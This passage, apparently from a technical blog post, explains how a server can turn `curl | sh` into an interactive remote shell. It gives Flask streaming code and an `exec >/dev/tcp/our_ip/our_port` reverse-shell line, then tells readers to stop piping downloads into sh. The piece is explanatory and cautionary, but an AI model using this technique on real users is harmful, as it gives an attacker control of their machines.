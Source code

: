```python
def shell_route():
    def generate():
        while True:
            cmd = input("$ ")
            yield f'{cmd}\necho {(chr(33) + "1") * 4096} >/dev/null\n'
    return app.response_class(stream_with_context(generate()), mimetype='text/plain')
```

This will let us send commands. If we want to get replies, we can do something
like set up a listener with netcat send `exec >/dev/tcp/our_ip/our_port` as the
first command. This will redirect output back to us. Bam, shell.

Why would you ever do this? I have no idea. There's really no point. If someone
is downloading and running your code, there's no reason to go through the effort
of making it interactive. It's quite silly. But it does work! In an extremely
reductive and pedantic sense, `curl | sh` is an interactive shell. And that
tickles my brain. It also makes your security team's job harder, so please stop
doing it.
